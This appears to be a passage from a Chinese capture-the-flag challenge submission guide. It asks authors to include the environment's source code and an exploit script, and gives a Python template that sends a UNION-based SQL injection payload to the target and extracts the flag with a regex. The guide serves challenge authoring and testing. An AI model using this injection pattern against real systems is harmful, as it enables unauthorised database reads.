 ![](8_填写指南_image.png)

题目源码
----

需要在此处把环境中所有的程序源码投递一份。

![](9_填写指南_image.png)

Exploit
-------

Exp脚本，请务必按照此格式编写 EXP，接收 目标IP，目标端口，预期FLAG 三个参数，**如写死这些参数，直接不通过！**

**所有CLD题目都需要提交EXP脚本！**

```python
#!/usr/bin/python
#  -*- coding: utf-8 -*-
import re
import sys
import requests

# 输入为靶机 IP 和端口以及要验证的 flag
HOST = sys.argv[1]
PORT = sys.argv[2]
FLAG = sys.argv[3]

# exp 函数
def exp(ip, port):
    # 构造 Payload
    payload = "3 union select 1,flag from flag limit 1"

    # 请求靶机
    r = requests.get("http://%s:%s/?id=%s" % (ip, port, payload))
    # print(r.text)

    # 匹配 FLAG
    match_group = re.findall("DASCTF{(.*?)}", r.text)
    flag = match_group[0]

    return flag


# 主逻辑
if __name__ == '__main__':
```